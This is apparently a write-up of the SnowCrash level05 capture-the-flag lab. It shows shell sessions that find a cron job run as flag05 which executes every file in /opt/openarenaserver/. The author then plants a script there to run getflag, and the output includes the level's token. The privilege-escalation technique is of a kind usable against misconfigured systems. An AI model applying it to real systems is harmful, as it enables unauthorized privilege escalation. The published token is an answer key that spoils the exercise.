 # Start / Search

```sh
level05@SnowCrash:~$ ll
total 12
dr-xr-x---+ 1 level05 level05  100 Mar  5  2016 ./
d--x--x--x  1 root    users    340 Aug 30  2015 ../
-r-x------  1 level05 level05  220 Apr  3  2012 .bash_logout*
-r-x------  1 level05 level05 3518 Aug 30  2015 .bashrc*
-r-x------  1 level05 level05  675 Apr  3  2012 .profile*
```
> nothing

## Always take notes

When I was searching for level00 I've found some files like `levelXX`, so let check it out:

```sh
level05@SnowCrash:~$ find / -name "*level*" 2> /dev/null
[...]
/rofs/var/mail/level05
/rofs/var/www/level04
/rofs/var/www/level12
```

# Analyse

```sh
level05@SnowCrash:~$ cat /rofs/var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
> This is a crontab, executing `sh /usr/sbin/openarenaserver` every 2 minutes

```sh
level05@SnowCrash:~$ cat  /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
> Execute all files in `/opt/openarenaserver/`, then delete it

# Exploit

```sh
#!/bin/sh

getflag > /tmp/ok

echo `getflag`
echo `getflag` > /tmp/ok1
```

set this script in `/opt/openarenaserver/`

> the script does not print on our user's terminal so we redirect

```sh
level05@SnowCrash:~$ cat /tmp/ok
Check flag.Here is your token : viuaaale9huek52boumoomioc
```